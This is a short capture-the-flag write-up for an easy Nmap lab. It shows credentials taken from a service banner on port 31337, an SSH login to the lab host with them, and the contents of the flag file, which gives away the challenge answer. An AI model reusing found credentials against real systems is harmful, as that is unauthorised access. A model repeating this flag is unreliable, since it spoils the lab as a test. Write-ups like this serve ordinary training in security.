

# Intermediate Nmap (Very Easy)



---

# Enumeration


We found the creds through port `31337` at line:

```
In case I forget - user:pass
|_    ubuntu:Dafdas!!/str0ng
```

The creds: `ubuntu:Dafdas!!/str0ng`

# Exploit - Gain Access → Get Flag

Now try to use the previous creds to login `ssh`

```tsx
┌──(kali㉿kali)-[~]
└─$ ssh ubuntu@10.10.130.178       
ubuntu@10.10.130.178's password: Dafdas!!/str0ng
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.13.0-1014-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```


Now we are in! Navigate the flag’s directory and get it!

```tsx
$ pwd
/home/ubuntu
$ ls -la
total 28                                                                                    
drwxr-xr-x 1 ubuntu ubuntu 4096 Jun 29 04:07 .                                              
drwxr-xr-x 1 root   root   4096 Mar  2  2022 ..                                             
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout                                   
-rw-r--r-- 1 ubuntu ubuntu 3771 Feb 25  2020 .bashrc                                        
drwx------ 2 ubuntu ubuntu 4096 Jun 29 04:07 .cache                                         
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile                                       
$ cd ..
$ ls
ubuntu  user
$ cd user
$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Mar  2  2022 .
drwxr-xr-x 1 root root 4096 Mar  2  2022 ..
-rw-rw-r-- 1 root root   38 Mar  2  2022 flag.txt
$ cat flag.txt
flag{251f309497a18888dde5222761ea88e4}
```